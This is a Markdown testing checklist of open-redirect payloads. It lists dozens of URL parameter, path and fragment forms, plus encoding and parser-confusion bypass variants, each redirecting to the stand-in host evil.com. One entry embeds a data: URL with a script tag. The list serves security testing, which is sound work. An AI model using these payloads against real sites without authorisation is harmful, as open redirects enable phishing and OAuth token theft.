 
##  Goal:
Test all user-controllable redirection points that may allow unvalidated redirection to attacker-controlled domains.

---

## URL Parameters with Redirection Logic
- [ ] `/redirect?url=https://evil.com`
- [ ] `/login?redirect=https://evil.com`
- [ ] `/auth/callback?continue=https://evil.com`
- [ ] `/home?next=https://evil.com`
- [ ] `/checkout?returnUrl=https://evil.com`
- [ ] `/dashboard?go=https://evil.com`
- [ ] `/exit?destination=https://evil.com`
- [ ] `/signin?ret=https://evil.com`
- [ ] `/start?redir=https://evil.com`
- [ ] `/forward?link=https://evil.com`

---

## Variants with Different Parameter Encodings
- [ ] `/redirect?url=//evil.com`
- [ ] `/redirect?url=evil.com`
- [ ] `/redirect?url=http://evil.com@trusted.com`
- [ ] `/redirect?url=http:evil.com`
- [ ] `/redirect?url=%2f%2fevil.com`
- [ ] `/redirect?url=https://evil.com/%2e%2e`
- [ ] `/redirect?url=https%3a%2f%2fevil.com`
- [ ] `/redirect?url=evil.com#@trusted.com`
- [ ] `/redirect?url=//evil.com%23@trusted.com`
- [ ] `/redirect?url=data:text/html,<script>`

---

## Parameter Names in Common Use
- [ ] `/api/forward?u=https://evil.com`
- [ ] `/jump?url=https://evil.com`
- [ ] `/click?target=https://evil.com`
- [ ] `/open?file=https://evil.com`
- [ ] `/view?image=https://evil.com`
- [ ] `/load?link=https://evil.com`
- [ ] `/download?resource=https://evil.com`
- [ ] `/path?redir_url=https://evil.com`
- [ ] `/fetch?redirect_uri=https://evil.com`
- [ ] `/api/oauth?redirect_to=https://evil.com`

---

## Redirection Inside Path or Fragments
- [ ] `/goto/https://evil.com`
- [ ] `/redirect/https://evil.com`
- [ ] `/auth/forward/https://evil.com`
- [ ] `/preview/#https://evil.com`
- [ ] `/start#url=https://evil.com`
- [ ] `/callback?next_page=%23https://evil.com`
- [ ] `/action?url=https://evil.com&foo=bar`
- [ ] `/continue?state=xyz&url=https://evil.com`
- [ ] `/jump-to?redirect=https://evil.com`
- [ ] `/confirm?forward_url=https://evil.com`

---